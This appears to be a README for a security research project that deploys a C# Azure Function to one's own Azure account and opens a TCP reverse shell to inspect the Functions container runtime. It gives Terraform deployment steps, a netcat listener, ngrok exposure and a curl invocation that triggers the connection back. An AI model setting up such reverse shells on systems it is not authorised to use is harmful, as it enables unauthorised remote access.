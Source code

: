 # Puma Prey Cougar

Cougar is a C# function that can be deployed to the Azure to establish a TCP reverse shell for the purposes of introspecting the Azure Functions container runtime.

## Installing Prerequisites

* [.NET Core 3.1 SDK](https://dotnet.microsoft.com/download)
* [Terraform](https://learn.hashicorp.com/terraform/getting-started/install.html)
* [Azure Functions Core Tools](https://docs.microsoft.com/en-us/azure/azure-functions/functions-run-local)

## Deploying the Function

```bash
cd terraform
terraform init
export TF_VAR_UniqueString=$(uuidgen | cut -b 25-36 | awk '{print tolower($0)}') # Save this value for future sessions.
terraform apply
```

You will likely get the following error on your first apply:

```
Error: Error running command 'cd ../src; func azure functionapp publish cougarYOUR_UNIQUE_STRING': exit status 1. Output: Can't find app with name "cougarYOUR_UNIQUE_STRING"
```

This means that the function app wasn't in an operable state when the function deploy command was run. Try running `terraform apply` again when this happens.

## Testing in Azure

Set up a TCP listener for your reverse shell, such as with [Netcat](http://netcat.sourceforge.net/):

```bash
nc -l 4444
```

To make your listener accessible from the public internet, consider using a service like [ngrok](https://ngrok.com/):

```bash
ngrok tcp 4444
```

Retrieve the API key in the Azure Portal by searching for "Function App", clicking on the new Function App resource, clicking "Manage", and clicking "Click to show" next to the default function key.

Invoke your function, supplying your connection details and API key:

```bash
curl "https://cougar$TF_VAR_UniqueString.azurewebsites.net/api/Cougar?host=YOUR_PUBLICLY_ACCESSIBLE_HOST&port=YOUR_PORT_NUMBER&code=YOUR_API_KEY"
```

Your listener will now act as a reverse shell for the duration of the function invocation.

## Teardown

```bash
terraform destroy
```

## Running Locally

```bash
cd src
dotnet restore
dotnet build
func start
```

## Testing Locally

```bash
curl 'http://localhost:7071/api/Cougar?host=YOUR_ACCESSIBLE_HOST&port=YOUR_PORT_NUMBER'
```

## Azure Function C# Template

```bash
func init Cougar --csharp --dotnet
func new --template "HTTP trigger" --name GetCougar
```
